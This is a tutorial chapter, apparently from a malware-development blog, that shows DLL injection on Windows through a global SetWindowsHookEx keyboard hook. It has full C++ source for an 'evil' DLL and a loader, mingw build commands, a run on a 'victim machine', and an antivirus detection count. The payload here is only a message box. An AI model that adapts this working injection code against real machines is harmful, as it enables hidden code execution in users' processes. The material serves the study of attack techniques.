



## 17. classic DLL injection via SetWindowsHookEx. Simple C++ malware.

{width="80%"}    

In this tutorial, I'll take a look at the DLL injection by using the `SetWindowsHookEx` method.    

### SetWindowsHookEx

Let's go to look an example which demonstrates this technique. The `SetWindowsHookEx` installs a hook routine into the hook chain, which is then invoked whenever certain events are triggered. Let's take a look at the function syntax:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

The most important param here is `idHook`. The type of hook to be installed, which can hold one of the following values:

    WH_CALLWNDPROC
    WH_CALLWNDPROCRET
    WH_CBT
    WH_DEBUG
    WH_FOREGROUNDIDLE
    WH_GETMESSAGE
    WH_JOURNALPLAYBACK
    WH_JOURNALRECORD
    WH_KEYBOARD
    WH_KEYBOARD_LL
    WH_MOUSE
    WH_MOUSE_LL
    WH_MSGFILTER
    WH_SHELL
    WH_SYSMSGFILTER

In our case, I'll be hooking the `WH_KEYBOARD` type of event, which will allow us to monitor keystroke messages.

### malicious DLL

Let's go to prepare our malicious DLL. For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}

```

As you can see we have a pretty simple DLL. The `DllMain()` function is called when the DLL is loaded into the process's address space. There's also a function named `Meow()`, which is an exported function and which is just pop-up message *"Meow from evil.dll!"*.   

### example. simple malware.

The next thing that we need to do is create our malware. Let's go to look the source code:
```cpp
/*
hack.cpp
DLL inject via SetWindowsHookEx
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // load evil DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // get the address of exported function from evil DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // install the hook - using the WH_KEYBOARD action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

It's also pretty simple. First of all we call `LoadLibrary` to load our malicious DLL:    

{width="80%"}    

Then, we are calling the `GetProcAddress` to get the address of the exported function `Meow`:    

{width="80%"}    

After that, the our malware calls the most important function, the `SetWindowsHookEx`. The parameters passed to that function determine what the function will actually do:   

{width="80%"}    

As you can see, whenever the keyboard event will occur, our function will be called. And we are passing the address of the our exported function - `meowFunc` parameter. Also we are passing the handle to our DLL - `meowDll` parameter. The last parameter `0` specifies that we want all programs to be hooked, not just a specific one, so it's a global hook.    

Then we call `Sleep`:

{width="80%"}    

for demonstrate that our hook works.

Then we call the `UnhookWindowsHookEx()` function to unhook the previously hooked `WH_KEYBOARD` action:

{width="80%"}    

So finally after we understood entire code of the malware, we can test it.    
Let's go to compile malicious DLL firstly:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

compile malware code:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}    

Then, see everything in action! Start our `hack.exe` on the victim machine (Windows 7 x64):
```cmd
.\hack.exe
```

{width="80%"}    

We can see that everything was completed successfully and at this point whenever we start a program, pop-up our message only when keyboard key is pressed.   

### Conclusion

In this section, I've demonstrate how we can use the `SetWindowsHookEx` function to inject the DLL into the process's address space and execute arbitrary code inside the process's address space.    

There is a caveat. This technique is not working in my Windows 10 x64 machine. I think the reason is this: CIG block this technique. Windows 10 x64 have two important things:

- **CFG (Control Flow Guard)** – prevent indirect calls to non-approved
addresses
- **CIG (Code Integrity Guard)** - only allow modules signed by
Microsoft/Microsoft Store/WHQL to be loaded into the process memory.   

In [this](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) presentation from BlackHat USA 2019, the authors explain that CIG block this technique.    

Let's go to upload our `hack.exe` to virustotal:

{width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**So, 5 of 67 AV engines detect our file as malicious.**    

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[Source code in Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
